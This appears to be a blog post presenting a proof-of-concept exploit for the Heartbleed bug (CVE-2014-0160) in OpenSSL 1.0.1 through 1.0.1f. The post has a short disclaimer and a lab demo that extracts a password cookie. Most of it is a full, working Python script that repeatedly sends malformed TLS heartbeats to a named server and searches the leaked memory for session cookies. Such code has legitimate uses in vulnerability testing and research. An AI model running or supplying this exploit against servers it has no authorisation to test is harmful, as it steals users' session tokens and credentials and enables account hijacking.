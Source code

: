 ```yaml
---
layout: post
title: PoC to capture data via the Heartbleed Bug
description: "A simple proof of concept on how to capture data on server running OpenSSL"
tags: [heartbeat bug, hacking, exploitation]
comments: true
---
```


This code is not mine nor I claim credits for it. You should use it only on your servers. It is very much against the law if you execute it on servers that you do not own. This code is for educational purposes only. I take no responsibility for you doing something stupid with it. Use it to check if your Apache servers running OpenSSL are vulnerable.

This is in regards to the bug that was found in OpenSSL versions 1.0.1 to 1.0.1f. These versions do not properly handle hearbeat extension. More info can be read here, [CVE-2014-0160](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2014-0160).

### Testing Ubuntu 12.04.3 LTS running OpenSSL 1.0.1

{% highlight c %}
$ python heartbleed-altered.py 192.168.199.135 secure
secure
securepassword=iamencrypted
{% endhighlight %}

The command above will try to capture section of a memory on the server running a vulnerable OpenSSL version. This is not even a mitm attack. This tool is directly connected to the Apache server via SSL(https).

> I noticed though sometimes, it doesn't capture anything. I'm pretty sure that the full working code is not being shared which I think is appropriate.

The output shows it was able to capture the securepassword cookie. I would like to emphasize that this is totally different from sniffing.

On my browser, I visited https://192.168.199.135/index.php
{% highlight c %}
<?php
    session_start();
    setcookie("securepassword", "iamencrypted");
    setcookie("secureusername", "highlysecured");
?>
{% endhighlight %}

This is how it looks in Chrome Developer Tools
<figure>
    <a href="/images/cookie-on-chrome-dev-tools.png"><img src="/images/cookie-on-chrome-dev-tools.png"></a>
</figure>


[Full-source code can be downloaded here](https://gist.github.com/c0debreaker/10225656)

{% highlight c %}
#!/usr/bin/python

# Connects to servers vulnerable to CVE-2014-0160 and looks for cookies, specifically user sessions.
# Michael Davis (mike.philip.davis@gmail.com)

# Based almost entirely on the quick and dirty demonstration of CVE-2014-0160 by Jared Stafford (jspenguin@jspenguin.org)

# The author disclaims copyright to this source code.

import select
import sys
import string
import struct
import socket
import time
from optparse import OptionParser

options = OptionParser(usage='%prog server [options]', description='Test for SSL heartbeat vulnerability (CVE-2014-0160)')
options.add_option('-p', '--port', type='int', default=443, help='TCP port to test (default: 443)')
options.add_option('-c', '--cookie', type='str', default='session', help='Cookie to look for. (default: session)')


def h2bin(x):
    return x.replace(' ', '').replace('\n', '').decode('hex')

hello = h2bin('''
16 03 02 00  dc 01 00 00 d8 03 02 53
43 5b 90 9d 9b 72 0b bc  0c bc 2b 92 a8 48 97 cf
bd 39 04 cc 16 0a 85 03  90 9f 77 04 33 d4 de 00
00 66 c0 14 c0 0a c0 22  c0 21 00 39 00 38 00 88
00 87 c0 0f c0 05 00 35  00 84 c0 12 c0 08 c0 1c
c0 1b 00 16 00 13 c0 0d  c0 03 00 0a c0 13 c0 09
c0 1f c0 1e 00 33 00 32  00 9a 00 99 00 45 00 44
c0 0e c0 04 00 2f 00 96  00 41 c0 11 c0 07 c0 0c
c0 02 00 05 00 04 00 15  00 12 00 09 00 14 00 11
00 08 00 06 00 03 00 ff  01 00 00 49 00 0b 00 04
03 00 01 02 00 0a 00 34  00 32 00 0e 00 0d 00 19
00 0b 00 0c 00 18 00 09  00 0a 00 16 00 17 00 08
00 06 00 07 00 14 00 15  00 04 00 05 00 12 00 13
00 01 00 02 00 03 00 0f  00 10 00 11 00 23 00 00
00 0f 00 01 01
''')

hb = h2bin('''
18 03 02 00 03
01 40 00
''')


class HeartBleeder(object):

    server_response = None
    socket = None
    hostname = ''
    port = 443
    found_sessions = set()
    cookie = 'session'
    cookie_length = 56

    def __init__(self, hostname='', cookie=''):
        self.hostname = hostname
        self.cookie = cookie

    def connect(self):
        """
        Connects to the remote server.
        """
        self.socket = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
        sys.stdout.flush()
        self.socket.connect((self.hostname, self.port))
        sys.stdout.flush()
        self.socket.send(hello)
        sys.stdout.flush()

    def rcv_response(self):
        while True:
            _type, version, payload = self.rcv_message()
            if _type is None:
                print 'Server closed connection without sending Server Hello.'
                return
            # Look for server hello done message.
            if _type == 22 and ord(payload[0]) == 0x0E:
                break

    def rcv_message(self):

        record_header = self.rcv_all(5)
        if record_header is None:
            print 'Unexpected EOF receiving record header - server closed connection'
            return None, None, None
        _type, version, line = struct.unpack('>BHH', record_header)
        payload = self.rcv_all(line, 10)
        if payload is None:
            print 'Unexpected EOF receiving record payload - server closed connection'
            return None, None, None
        # print ' ... received message: type = %d, ver = %04x, length = %d' % (typ, ver, len(pay))
        return _type, version, payload

    def rcv_all(self, length, timeout=5):
        endtime = time.time() + timeout
        rdata = ''
        remain = length
        while remain > 0:
            rtime = endtime - time.time()
            if rtime < 0:
                return None
            r, w, e = select.select([self.socket], [], [], 5)
            if self.socket in r:
                data = self.socket.recv(remain)
                # EOF?
                if not data:
                    return None
                rdata += data
                remain -= len(data)
        return rdata

    def try_heartbeat(self):
        self.socket.send(hb)
        while True:
            _type, version, self.payload = self.rcv_message()
            if _type is None:
                print 'No heartbeat response received, server likely not vulnerable'
                return False

            if _type == 24:
                # print 'Received heartbeat response:'
                self.parse_response()
                if len(self.payload) > 3:
                    pass
                    # print 'WARNING: server returned more data than it should - server is vulnerable!'
                else:
                    print 'Server processed malformed heartbeat, but did not return any extra data.'
                return True

            if _type == 21:
                print 'Received alert:'
                self.hexdump(self.payload)
                print 'Server returned error, likely not vulnerable'
                return False

    def parse_response(self):
        """
        Parses the response from the server for a session id.
        """
        ascii = ''.join((c if 32 <= ord(c) <= 126 else ' ')for c in self.payload)
        index = string.find(ascii, self.cookie)
        if index >= 0:
            info = ascii[index:index + self.cookie_length]
            session = info.split(' ')[0]
            session = string.replace(session, ';', '')
            if session not in self.found_sessions:
                self.found_sessions.add(session)
                print session

    def hexdump(self, payload):
        """
        Prints out a hexdump in the event that server returns an error.
        """
        for b in xrange(0, len(payload), 16):
            line = [c for c in payload[b:b + 16]]
            hxdat = ' '.join('%02X' % ord(c) for c in line)
            pdat = ''.join((c if 32 <= ord(c) <= 126 else '.')for c in line)
            print '  %04x: %-48s %s' % (b, hxdat, pdat)
        print

    def scan(self):
        self.connect()
        self.rcv_response()
        self.try_heartbeat()


def main():
    opts, args = options.parse_args()
    if len(args) < 1:
        options.print_help()
        return

    cookies_str = 'session'
    if len(args) > 1:
        cookies_str = args[1]

    print cookies_str

    while True:
        heartbeat = HeartBleeder(hostname=args[0], cookie=cookies_str)
        heartbeat.scan()


if __name__ == '__main__':
    main()
{% endhighlight %}